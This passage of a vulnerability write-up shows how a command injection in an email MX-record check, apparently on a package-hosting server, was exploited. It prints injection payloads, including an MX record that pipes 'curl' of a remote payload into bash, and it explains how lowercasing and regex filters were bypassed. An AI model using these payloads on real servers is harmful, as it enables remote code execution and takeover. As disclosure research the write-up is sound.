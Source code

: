The <b>host_mx</b> method executes an arbitrary OS Command, concatenating it with the user-provided email’s domain.
The final executed command is as follows:
<br><b>`/usr/bin/env host -t MX <DOMAIN>`</b>


## Exploitation
#### <ins>THE STOPPER</ins>
To initiate the exploitation of the vulnerability, we made an HTTP POST request to the <b>/api/v1/sessions</b> API endpoint. In the request body, we supplied a manipulated input.

The main objective was to trigger the MX record validation process, which would ultimately lead to the evaluation and execution of our malicious user input, resulting in the execution of OS commands on the trunk server.

To achieve our goal and establish a fully interactive reverse shell, we had to overcome certain challenges:

* <ins>Lowercase Conversion:</ins> The first challenge stemmed from the fact that the email address provided by the user is converted to lowercase using the <b>owner.rb/normalize_email</b> method. As a result, a simplistic payload like `reef<span>@evasec.io|curl{IFS}evasec.io` would not be effective, as the server would process it in lowercase.<br>
<ins>Note</ins>: The <b>IFS</b> would be converted to <b>ifs</b> and won’t be used as a separator.
* <ins>Regex Pattern Validation:</ins> The RFC822 library functions contain validation using a defined regex pattern. This validation presented a significant obstacle, as a payload such as `reef<span>@evasec.io|{curl,evasec.io}` would not work due to the presence of the following characters that the library would eliminate:
  * `“ “ (space)`
  * `"`
  * `()`
  * `.`
  * `,`
  * `<>`
  * `@`
  * `[]`

#### <ins>THE BREAKTHROUGH</ins>
To finalize our mission we needed to overcome the brick wall we encountered with.<br> We discovered that the `/usr/bin/env host -t MX <DOMAIN>`</ins> command provides an output we can control, allowing us to bypass these challenges.<br>
The output could be harnessed by piping it into a bash command, creating an opportunity for code execution.<br>
<ins>For example:</ins>
<p align="center">/usr/bin/env host -t MX &lt;DOMAIN&gt;<b> | bash</b></p>
 

We manipulated an MX record on our domain, managed via Route53 on AWS.
The MX record contains the following <b>valid</b> string:
<p align="center">10 a||{curl, -s,ht<span>tp://serve.evasecresearch.com/payload.txt}|bash||.com </p></b><br>

<ins><b>Target:</ins></b> The crafted payload was set to be executed during the domain’s validation through the host command.
